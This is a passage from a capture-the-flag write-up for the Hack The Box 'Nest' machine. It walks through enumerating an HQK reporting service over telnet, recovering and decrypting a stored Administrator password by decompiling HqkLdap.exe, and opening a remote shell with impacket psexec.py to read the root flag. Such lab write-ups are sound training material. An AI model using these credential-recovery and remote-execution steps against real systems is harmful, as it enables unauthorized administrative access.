                    10485247 blocks of size 4096. 6543251 blocks available
    
    smb: \c.smith\HQK Reporting\AD Integration Module\> get HqkLdap.exe
    getting file \c.smith\HQK Reporting\AD Integration Module\HqkLdap.exe of size 17408 as HqkLdap.exe (98.8 KiloBytes/sec) (average 56.5 KiloBytes/sec)
    

So here's what the xml file has:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/22 ] [~/HTB/Nest]
    → cat HQK_Config_Backup.xml
    <****?xml version="1.0"?> <****ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"> <****Port>4386 <****/Port> <****QueryDirectory>C:\Program Files\HQK\ALL QUERIES <****/QueryDirectory> <****/ServiceSettings>%

So here we get the configuration file for the service running on port 4386, let's try to connect to it using telnet:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/22 ] [~/HTB/Nest]
    → telnet 10.10.10.178 4386
    Trying 10.10.10.178...
    Connected to 10.10.10.178.
    Escape character is '^]'.
    
    HQK Reporting Service V1.2
    
    >help
    
    This service allows users to run queries against databases using the legacy HQK format
    
    --- AVAILABLE COMMANDS ---
    
    LIST
    SETDIR <****Directory_Name>
    RUNQUERY <****Query_ID>
    DEBUG <****Password>
    HELP <****Command>
    
    >LIST
    
    Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command
    
     QUERY FILES IN CURRENT DIRECTORY
    
    [DIR]  COMPARISONS
    [1]   Invoices (Ordered By Customer)
    [2]   Products Sold (Ordered By Customer)
    [3]   Products Sold In Last 30 Days
    
    Current Directory: ALL QUERIES
    >1
    
    Unrecognised command
    >RUNQUERY 1
    
    Invalid database configuration found. Please contact your system administrator
    
    Invalid database configuration found. Please contact your system administrator
    >SETDIR C:\
    
    Current directory set to C:
    >DEBUG
    
    Invalid number of arguments specified
    >DEBUG WBQ201953D8w
    
    Debug mode enabled. Use the HELP command to view additional commands that are now available

And here you see that we needed the password from earlier to properly use the DEBUG command, now from here we get a few additional commands:
    
    
    >HELP
    
    This service allows users to run queries against databases using the legacy HQK format
    
    --- AVAILABLE COMMANDS ---
    
    LIST
    SETDIR <****Directory_Name>
    RUNQUERY <****Query_ID>
    DEBUG <****Password>
    HELP <****Command>
    SERVICE
    SESSION
    SHOWQUERY <****Query_ID>

We get access to the commands named **SERVICE** , **SESSION** , **SHOWQUERY**
    
    
    >SERVICE
    
    --- HQK REPORTING SERVER INFO ---
    
    Version: 1.2.0.0
    Server Hostname: HTB-NEST
    Server Process: "C:\Program Files\HQK\HqkSvc.exe"
    Server Running As: Service_HQK
    Initial Query Directory: C:\Program Files\HQK\ALL QUERIES
    

Here we get hinted towards the **C:\Program Files\HQK\** directory:
    
    
    >SETDIR C:\Program Files\HQK
    
    Current directory set to HQK
    >LIST
    
    Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command
    
     QUERY FILES IN CURRENT DIRECTORY
    
    [DIR]  ALL QUERIES
    [DIR]  LDAP
    [DIR]  Logs
    [1]   HqkSvc.exe
    [2]   HqkSvc.InstallState
    [3]   HQK_Config.xml
    
    Current Directory: HQK
    
    

Let's take a look at the LDAP directory:
    
    
    >SETDIR LDAP
    
    Current directory set to LDAP
    >LIST
    
    Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command
    
     QUERY FILES IN CURRENT DIRECTORY
    
    [1]   HqkLdap.exe
    [2]   Ldap.conf
    
    Current Directory: LDAP
    
    >SHOWQUERY 2
    
    Domain=nest.local
    Port=389
    BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
    User=Administrator
    Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
    
    

And here we get credentials! Although this is still an encrypted password for the Administrator User, Just like before we need the following arguements to decrypt it: **passphrase / saltvalue / passwordIterations / initVector / keySize** And to find those, we need to decompile the **HqkLdap.exe** binary and we can do it using [ILSpy](https://github.com/icsharpcode/ILSpy).
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/23 ] [~/HTB/Nest]
    → git clone https://github.com/icsharpcode/ILSpy
    
    [ 10.10.14.13/23 ] [ /dev/pts/23 ] [HTB/Nest/ILSpy]
    → git submodule update --init --recursive
    Submodule 'ILSpy-tests' (https://github.com/icsharpcode/ILSpy-tests) registered for path 'ILSpy-tests'
    Cloning into '/home/nothing/HTB/Nest/ILSpy/ILSpy-tests'...
    Submodule path 'ILSpy-tests': checked out 'aa8f1197e6a513bcc10bcc38ec7d2143d27a2246'
    
    

And from there, you decompile the **HqkLdap.exe** binary file, and get the following parameters from the reversed code: 
    
    
    #passPhrase = **667912**
    #saltValue = **1313Rf99**
    #passwordIterations = **3**
    #initVector = **1L1SA61493DRV53Z**
    #keySize = **256**
    
    

Just like before we change the decrypt.cs code to have the aforementionned values, and we decrypt the password:

Then we compile it, and run it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → mcs decrypt.cs
    
    [ 10.10.14.13/23 ] [ /dev/pts/1 ] [~/HTB/Nest]
    → ./decrypt.exe
    Plaintext: XtH4nkS4Pl4y1nGX
    

And that's it ! We managed to get the Administrator password. So let's get onto the box using psexec.py:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/22 ] [~/HTB/Nest]
    → locate psexec.py
    /home/nothing/HTB/Forest/impacket/build/scripts-3.9/psexec.py
    /home/nothing/HTB/Forest/impacket/examples/psexec.py
    /usr/local/bin/psexec.py
    /usr/local/lib/python3.9/dist-packages/impacket-0.9.23.dev1+20210519.170900.2f5c2476-py3.9.egg/EGG-INFO/scripts/psexec.py
    /usr/share/doc/python3-impacket/examples/psexec.py
    /usr/share/powershell-empire/lib/modules/powershell/lateral_movement/invoke_psexec.py
    /usr/share/set/src/fasttrack/psexec.py
    
    [ 10.10.14.13/23 ] [ /dev/pts/22 ] [~/HTB/Nest]
    → python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
    Impacket v0.9.23.dev1+20210519.170900.2f5c2476 - Copyright 2020 SecureAuth Corporation
    
    [*] Requesting shares on 10.10.10.178.....
    [*] Found writable share ADMIN$
    [*] Uploading file xKwELIZm.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [*] Creating service mWKI on 10.10.10.178.....
    [*] Starting service mWKI.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\system32>systeminfo
    
    Host Name:                 HTB-NEST
    OS Name:                   Microsoft Windows Server 2008 R2 Standard
    OS Version:                6.1.7601 Service Pack 1 Build 7601
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Server
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Windows User
    Registered Organization:
    Product ID:                00477-179-0000007-84361
    Original Install Date:     8/5/2019, 9:22:30 PM
    System Boot Time:          5/28/2021, 7:32:37 AM
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               x64-based PC
    Processor(s):              1 Processor(s) Installed.
                               [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             en-us;English (United States)
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC) Dublin, Edinburgh, Lisbon, London
    Total Physical Memory:     2,047 MB
    Available Physical Memory: 1,546 MB
    Virtual Memory: Max Size:  4,095 MB
    Virtual Memory: Available: 3,653 MB
    Virtual Memory: In Use:    442 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    WORKGROUP
    Logon Server:              N/A
    Hotfix(s):                 68 Hotfix(s) Installed.
    Network Card(s):           1 NIC(s) Installed.
                               [01]: Intel(R) PRO/1000 MT Network Connection
                                     Connection Name: Local Area Connection
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.178
                                     [02]: fe80::f144:55c1:5e8a:4cbd
                                     [03]: dead:beef::f144:55c1:5e8a:4cbd
    C:\Windows\system32>cd C:\Users\Administrator\Desktop
    
    C:\Users\Administrator\Desktop>type root.txt
    65XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

